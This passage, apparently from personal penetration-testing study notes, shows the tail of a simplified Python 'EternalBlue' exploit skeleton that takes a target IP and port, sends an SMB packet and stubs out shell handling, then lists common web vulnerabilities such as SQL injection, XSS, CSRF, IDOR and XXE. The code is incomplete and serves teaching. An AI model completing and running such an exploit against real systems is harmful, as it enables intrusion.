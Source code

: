 ```python

    # Send crafted SMB packet
    exploit_packet = create_smb_packet()
    sock.send(exploit_packet)

    # Handle response and potential shell
    # ... (Code to handle response and interact with the shell)

    sock.close()


def main():
    # Setting ASCII art
    ascii_art = figlet_format('Eternal Blue', font='slant')
    print(ascii_art)

    # Argument parsing
    parser = argparse.ArgumentParser(description='Simple eternal blue exploit coded in python')

    parser.add_argument('-t', '--target', type=str, required=True, help='The target IP to exploit')

    parser.add_argument('-p', '--port', type=str, required=True, help='The target PORT to exploit')

    args = parser.parse_args()

    # Calling the sending exploit function

    send_exploit(target_ip=args.target, target_port=args.port)


if __name__ == '__main__':
    main()
```

This example is greatly simplified and does not include the full complexity of the EternalBlue exploit. In practice, developing such an exploit requires in-depth knowledge of the SMB protocol, Windows internals, and exploit development techniques.

### Exploiting Web Applications
---


Web applications are a common target for attackers due to their widespread use and potential for containing sensitive data. Understanding and exploiting web application vulnerabilities is a crucial skill for ethical hackers and penetration testers.

Introduction to web application vulnerabilities Some common web application vulnerabilities include: 

1. SQL Injection ([[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/INJECTIONS/SQLI/SQL INJECTION (SQLI).md|SQLi]]): Occurs when user input is not properly sanitized and is directly included in SQL queries, allowing attackers to manipulate the database
2. Cross-Site Scripting ([[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/CROSS SITE SCRIPTING/CROSS SITE SCRIPTING (XSS).md|XSS]]): Allows attackers to inject malicious scripts into web pages viewed by other users, potentially stealing sensitive information or performing actions on behalf of the victim.
3. Cross-Site Request Forgery ([[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/CROSS SITE REQUEST FORGERY/CROSS SITE REQUEST FORGERY (CSRF).md|CSRF]]): Tricks the victim into performing unintended actions on a web application where they're authenticated.
4. Insecure Direct Object References ([[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/IDOR/IDOR BASICS.md|IDOR]]): Allows attackers to access or manipulate resources by modifying object references in requests
5. XML External Entity (XXE) Injection: Exploits poorly configured XML parsers to access internal files or perform denial of service attacks.